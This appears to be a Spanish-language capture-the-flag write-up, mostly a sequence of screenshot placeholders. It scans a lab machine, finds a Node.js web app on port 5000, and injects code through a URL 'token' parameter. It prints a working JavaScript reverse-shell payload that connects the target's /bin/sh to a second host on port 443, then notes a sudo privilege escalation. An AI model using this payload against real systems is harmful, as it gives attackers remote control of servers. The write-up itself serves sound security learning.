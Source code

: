 Hacemos el escaneo con nmap:
![[Pasted image 20231002101011.png]]
Y esto es lo que corre por el puerto 5000:
![[Pasted image 20231002101152.png]]
Y si ponemos un texto en ese cuadro y damos a enter vemos que lo imprime por pantalla:
![[Pasted image 20231002101235.png]]
Pero vemos que nos cambia la url cada vez que añadimos algún parámetro:
![[Pasted image 20231002101402.png]]
Probamos en cambiar los parámetros de la url y la web crashea:
![[Pasted image 20231002101603.png]]
Y en esta web tenemos 
![[Pasted image 20231002105041.png]]
https://medium.com/dont-code-me-on-that/bunch-of-shells-nodejs-cdd6eb740f73
```bash
192.168.0.24:5000/?name=mario&token=(function(){ var net = require('net'), cp = require('child_process'), sh = cp.spawn('/bin/sh', []); var client = new net.Socket(); client.connect(443, '192.168.0.63', function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})();
```
Si esto lo ponemos en el apartado de token, vemos que funciona:
![[Pasted image 20231002105150.png]]
![[Pasted image 20231002105158.png]]
Si ejecutamos un sudo -l vemos que podemos ejecutar un binario llamado links:
![[Pasted image 20231002105434.png]]
Y esto es lo que hace:
![[Pasted image 20231002105816.png]]
![[Pasted image 20231002105518.png]]

![[Pasted image 20231002105905.png]]

![[Pasted image 20231002105919.png]]
